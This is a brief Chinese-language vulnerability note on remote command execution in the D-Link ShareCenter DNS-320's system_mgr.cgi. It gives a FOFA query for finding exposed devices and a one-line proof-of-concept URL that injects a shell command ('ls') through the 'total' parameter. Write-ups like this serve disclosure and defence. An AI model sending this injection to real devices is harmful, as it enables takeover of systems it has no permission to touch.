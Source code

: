 # D-Link ShareCenter DNS-320 system_mgr.cgi 远程命令执行漏洞

## 漏洞描述

D-Link ShareCenter DNS-320 system_mgr.cgi 存在远程命令执行，攻击者通过漏洞可以控制服务器

## 漏洞影响

```
D-Link ShareCenter DNS-320
```

## FOFA

```
app="D_Link-DNS-ShareCenter"
```

## 漏洞复现

登录页面如下

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162224540.png)

漏洞POC为

```plain
/cgi-bin/system_mgr.cgi?cmd=cgi_get_log_item&total=;ls;
```

![](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202162224614.png)